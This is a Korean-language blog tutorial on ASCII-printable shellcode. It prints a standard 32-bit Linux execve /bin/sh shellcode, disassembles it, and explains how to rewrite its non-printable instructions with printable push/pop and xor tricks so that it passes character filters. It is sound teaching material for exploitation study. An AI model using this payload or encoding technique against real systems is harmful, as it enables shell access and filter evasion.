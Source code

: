 ```yaml
---
layout: post
title: ! "Ascii Numeric ShellCode"
excerpt_separator: <!--more-->
comments : true
tags:
  - Shellcode
  - Ascii
  - t4ngo
---
```


제가 얼마 전에 아주 재밌게 보았던! Ascii ShellCode에 대해 설명하여 볼까 합니다. Ascii-Numeric-ShellCode란 출력 가능한 Ascii 문자들로 이루어진 쉘 코드를 뜻하며 다형성 쉘코드의 한 종류입니다!

출력 가능한 Ascii 문자들로 이루어진 쉘 코드가 무슨 말이냐?

지금부터 저와 함께 알아보시죠! GOGOGO~~!

<!--more-->

먼저, 우리가 흔히 알고 있는 Basic한 32-bit Shell code를 봐 볼까요?

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

보통 우리는 Simple한 ShellCode Exploit을 할 때 보통 위와 같은 쉘 코드를 주로 사용합니다!

좀 더 보기 쉽게 disassemble 해 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

Online Assembler로 간단하게 Disassemble하면 위와 같은 Assembly 코드를 볼 수가 있습니다.

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
```

코드를 보면 위 코드에서 스택에 0을 push합니다. 

```
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
```

그런 다음 현재 코드에서 스택에 "/bin//sh(0x68732f2f, 0x6e69622f)"을 push하는 것을 알 수 있죠?

```
d:  89 e3                   mov    ebx,esp
```

다시 코드를 쭈~~~~욱 보면 아래 코드를 통해 스택에 궁극적으로 "/bin//sh"의 포인터를 ebx 레지스터에 넣습니다.

```
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
```

그리고, 0을 edx 레지스터에 넣은 후

```
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
```

ecx 레지스터에 "/bin//sh"이 저장된 곳의 포인터를 ecx 레지스터에 넣어 줍니다! 여기까지 잘 따라오셨나요?

```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

그리고 마지막으로 al 레지스터에 0xb를 넣고 `'int 0x80'` 명령어를 통해 syscall을 수행하여 쨘~ 하고 쉘을 띄워줍니다!

여기까지가 보통 32-bit Shell Code입니다! 그렇다면!!! 드디어! Ascii-Numeric-ShellCode와는 무엇이 다른가?!

먼저, Ascii-Numeric-ShellCode는 위애서 설명했든 출력 가능한, printable한 hex 값들로 이루어진 Shellcode를 뜻합니다.

다시 위의 32-bit Shell Code를 봐 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
`

현재의 hex 값에는 Ascii 코드로 표현하지 못하는 hex 값이 존재합니다! 즉, Ascii table에 없는 hex 값이라 printable하지 못하다는 것이겠죠?

![]({{ site.baseurl }}/images/t4ngo/Ascii_Numeric_ShellCode/Ascii_Numeric_ShellCode_01.png)  

출력 가능한 Ascii table의 범위는 0x20 ~ 0x7F까지입니다. 즉, 이 범위 안에 해당하는 hex 값들만 Ascii-Numeric-ShellCode로 사용이 가능하다는 뜻이겠죠?

그렇다면, 여러분은 현재의 32-bit ShellCode에서 Ascii의 범위를 벗어난 hex들을 찾으셨나요?

Ascii-Numeric-ShellCode란 바로 이런 Asciiable 하지 않은 hex 코드들을 Asciiable하게 바꿔주어 모든 hex 값이 출력 가능한 Ascii 값을 가진 Shell Code를 말합니다!!

위 코드에서 Asciiable 하지 않은 코드들을 뽑아볼까요?

1. 
```
0:  31 c0                   xor    eax,eax
```

2. 
```
d:  89 e3                   mov    ebx,esp
```

3. 
```
10: 89 e2                   mov    edx,esp
```

4. 
```
13: 89 e1                   mov    ecx,esp
```

5. 
```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

위와 같은 코드 부분들이 모두 Ascii Table의 범위를 벗어났죠? 나쁜 녀석들이에요 ㅠㅠ.

그럼 이 hex 값들을 어떻게 바꿔주냐!! 지금부터 주목해주세요!

```
0:  31 c0                   xor    eax,eax
```

이 코드는

```
0:  6a 77                   push   0x77
2:  58                      pop    eax
3:  34 77                   xor    al,0x77
```

쨘! 이렇게 바꿔 줄 수 있겠죠? 결과적으로 `'xor eax,eax'`가 하는 일은 eax 레지스터에 0을 담는 것이므로 코드를 아래와 같이 바꿔 줄 수 있어요! ㅎㅎ

또한, 그 때마다 Binary의 레지스터 상황을 보고 유연하게 쉘 코딩도 할 수 있죠!

예를 들면, 쉘 코드를 호출하기 직전에 eax 레지스터에 0x01이 들어있었다! 그러면 코드를 `'dec eax'`로 수정해주면 eax 레지스터는 0이 되겠죠? (오옹! >_O)

그 다음! mov 코드들은 어떻게 바꿔주냐! mov도 마찬가지로 push, pop으로 해결이 가능합니다! ㅎㅎ

2번 코드를 push, pop으로 구현하면...

```
0:  54                      push   esp
1:  5b                      pop    ebx
```

위와 같은 코드로 바꿀 수 있겠죠? 스택에 esp를 push하고 ebx로 pop을 해주면서 `'mov ebx, esp'`와 같은 동작을 하게 됩니다!

mov 명령들은 위와 같이 해결해 주면 되고!

```
17: cd 80                   int    0x80
```

다음은, syscall 부분! 사실 이 부분이 제일 핵심이죠! 왜냐? `'int 0x80'`은 대체 할 수 있는 명령어가 거의 없기 때문이죠 ㅠㅠ

그렇기 때문에 앞서 말해드렸던 스택에 이미 존재하는 레지스터 값을 이용하여 syscall을 호출 하여야 하는데요! 

음... 가령 예를 들면 xo 

ecx 레지스터에 0xFFFF 값이 들어있다면 이 값을 활용하여 `'xor ecx, 0x327F'`를 해줘서 `'cd 80'` hex를 만들어 준 뒤 이 값을 활용하여 eip에 넣어주도록 스택의 상황에 맞게 조작하여 주면 됩니다!

사실, 이 부분은 Binary 마다 호출 당시 스택의 상황이나 레지스터의 상황이 다 다르기 때문에 이런식으로 원리를 설명드리는 방법이 최선인 것 같아요 ㅠㅠ

이 외에도 레지스터나 스택에 남아 있는 값들을 활용하여 `'cd 80'`을 만들어 주면 되는데 핵심은 스택에 `'cd 80'`을 만들어 주고 그 값을 활용하여 syscall을 한다는 것만 기억하면 됩니다!

Ascii-Numeric-ShellCode를 만드는 것이 이렇게 해서 이렇게 하면 이렇게 돼! 하고 딱 정의 되어 있지 않고 그때그때 스택의 상황이나 레지스터의 상황을 보며 자신에게 가장 알맞는 코드를 선택하여 쉘 코딩해주면 되기 때문에 대략 이런 원리로 Ascii-Numeric-ShellCode가 만들어 진다는 점만 기억해주시면 될 것 같습니다!

이제 여러분의 레지스터나 스택 상황에 맞게 창의성을 발휘하여 Ascii-Numeric-ShellCode를 만들어 보세요~~!!! 화이팅!
